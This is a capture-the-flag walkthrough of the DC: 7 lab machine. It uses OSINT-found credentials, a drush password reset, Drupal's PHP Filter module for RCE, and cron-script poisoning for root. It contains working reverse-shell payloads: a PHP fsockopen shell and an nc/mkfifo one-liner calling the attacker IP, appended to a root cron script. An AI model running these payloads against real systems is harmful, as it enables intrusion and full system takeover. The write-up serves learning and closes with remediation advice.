





# DC: 7 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.101 |
| **Attacker IP** | 192.168.1.106 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/dc7-vulnhub-walkthrough/) |

## Attack Summary

DC: 7 runs Drupal on port 80. The machine's welcome message hints to think "outside the box," which is literally true: the attack begins with OSINT on Twitter/GitHub to locate a PHP repository containing Drupal credentials. SSH access is obtained with those creds, drush is used to reset the Drupal admin password, and a PHP filter module enables RCE through a malicious page. A cron-executed backup script writable by `www-data` is poisoned with an msfvenom payload to obtain a root shell.

## Methodology

1. Network scanning (Nmap)
2. OSINT — Twitter profile → GitHub → credentials in `config.php`
3. SSH login with discovered credentials
4. Drupal admin password reset via drush
5. Drupal PHP filter module installation for RCE
6. Reverse shell as `www-data`
7. Privilege escalation via writable cron script

## Step 1: Reconnaissance

```bash
nmap -A 192.168.1.101
```



Open ports:
- **22/tcp** — OpenSSH
- **80/tcp** — HTTP (Drupal CMS)

The HTTP scan reveals `robots.txt` with 15 disallowed entries. The Drupal site's front page is observed.

## Step 2: OSINT — Credentials via GitHub



The Drupal welcome page mentions `@DC7User`. Search Twitter for that handle — the profile links to a GitHub account. The GitHub repository `staffdb` contains a file `config.php` with plaintext credentials:

| Field | Value |
|---|---|
| Username | `dc7user` |
| Password | `MdR3xOgB7#dW` |

```bash
# Observed in GitHub config.php:
$db_user = 'dc7user';
$db_pass = 'MdR3xOgB7#dW';
```

## Step 3: SSH Login

```bash
ssh dc7user@192.168.1.101
```

Enumerate the home directory:

```bash
ls -la ~
cat mbox
```

The `mbox` file contains a mail notification about a backup script at `/opt/scripts/backup.sh`. Read the script:

```bash
cat /opt/scripts/backup.sh
```

The script uses `drush` to interact with Drupal and runs as root via cron.

## Step 4: Drupal Admin Password Reset via drush



```bash
drush user-password admin --password=raj
```

Navigate to `http://192.168.1.101/user/login` and log in with `admin:raj`.

## Step 5: RCE via PHP Filter Module

Log in to Drupal as admin, then:

1. Go to **Manage > Extend** and install the PHP Filter module from Drupal.org.
2. Enable the PHP Filter module.
3. Create a new piece of content (Basic Page).
4. In the body, paste the Pentest Monkey PHP reverse shell (edit `$ip` and `$port`):

```php
<?php
set_time_limit(0);
$ip   = '192.168.1.106';
$port = 9001;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

5. Set text format to **PHP code**.
6. Check **Published**.
7. Start a listener, then click **Preview**.

```bash
nc -nvlp 9001
```

A shell as `www-data` is received.

## Step 6: Shell Upgrade

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

## Step 7: Privilege Escalation — Poisoning backup.sh



Check permissions on the backup script:

```bash
ls -la /opt/scripts/backup.sh
# -rwxrwxrwx (or writable by www-data)
```

Generate a reverse shell payload:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.106 lport=8888 R
```

The output is a mkfifo-based command. Append it to the backup script:

```bash
echo 'mkfifo /tmp/ulgg; nc 192.168.1.106 8888 0</tmp/ulgg | /bin/sh >/tmp/ulgg 2>&1; rm /tmp/ulgg' >> /opt/scripts/backup.sh
```

Start a listener on the attacker machine:

```bash
nc -nvlp 8888
```

Wait for the cron job to execute `backup.sh` as root. A root shell arrives on the listener.

## Step 8: Root Flag



```bash
id
# uid=0(root) gid=0(root) groups=0(root)
ls /root
cat /root/flag.txt
```

## Lessons Learned

1. **OSINT extends far beyond the machine itself** — usernames and profile links on the target can lead to GitHub repositories with hardcoded credentials.
2. **drush** provides administrative control over Drupal from the command line, allowing password resets without database access.
3. **Drupal PHP Filter module** is a known dangerous module that allows arbitrary PHP execution through content — it should never be enabled on production sites.
4. **Cron scripts writable by low-privileged users** are a critical privilege escalation vector — any script executed by root via cron must be owned by root and not world-writable.
5. **Code in public repositories** (even GitHub) is indexed and discoverable. Never store credentials in source code.

## Remediation

| Vulnerability | Fix |
|---|---|
| Credentials in public GitHub repo | Use environment variables, secrets managers, or `.gitignore` for config files; rotate any exposed credentials immediately |
| Drupal PHP Filter module | Disable or uninstall; use Twig templates instead of raw PHP in content |
| Writable cron script | Set `root:root 750` permissions on all scripts executed by root via cron |
| Weak Drupal admin password reset | Restrict drush usage to root/admin users; audit drush access |
| PHP reverse shell via CMS | Apply WAF rules; disable server-side PHP execution in upload/content directories |
